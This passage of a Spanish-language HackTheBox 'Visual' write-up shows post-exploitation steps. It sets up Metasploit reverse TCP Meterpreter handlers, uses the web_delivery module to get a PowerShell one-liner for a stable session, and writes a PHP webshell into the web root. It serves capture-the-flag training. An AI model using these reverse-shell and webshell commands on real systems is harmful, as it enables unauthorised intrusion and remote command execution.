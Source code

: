 ![](@assets/HackTheBox/Visual/exploit.png)

Nos ponemos en escucha con msfconsole:

```bash
❯ sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 443; run"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => tun0
lport => 443
[*] Started reverse TCP handler on 10.10.14.16:443
```

Mandamos la URL, y al cabo de un rato, recibimos una conexión:

![](@assets/HackTheBox/Visual/msfconsole.png)

Pero esta conexión dura unos segundos y luego se cierra, por lo que hay que buscar otra forma.

Usaré el módulo `multi/script/web_delivery` para obtener una conexión más estable.

Primero cargo el módulo para que me indice el one-liner de powershell que tengo que correr en la máquina víctima para obtener una session en meterpreter

```bash
❯ sudo msfconsole -q -x "use exploit/multi/script/web_delivery; set payload windows/meterpreter/reverse_tcp; set srvhost tun0; set lhost tun0; set target 2;run"
```

Luego en otra terminal me pongo en escucha como antes:

```bash
❯ sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 443; set autorunscript 'load powershell'; run"
```

pero esta vez, antes de que la conexión muera, cargo powershell con `load powershell`, inicializo una powershell con `powershell_shell` y copio y pego el comando que el anterior módulo me indicó:

![](@assets/HackTheBox/Visual/powershell.png)

Y recibimos la sesión en la otra terminal:

![](@assets/HackTheBox/Visual/web.png)

Ahora tenemos una sesión estable en la que podemos explorar cómodamente el sistema.

Encuentro el directorio donde se encuentran los archivos del servidor web y tengo permisos de escritura, por lo que creo una webshell en php.

![](@assets/HackTheBox/Visual/dir.png)

```cmd
c:\xampp\htdocs>echo ^<?php system($_GET['cmd']);?^> > new.php
```

![](@assets/HackTheBox/Visual/webshell.png)
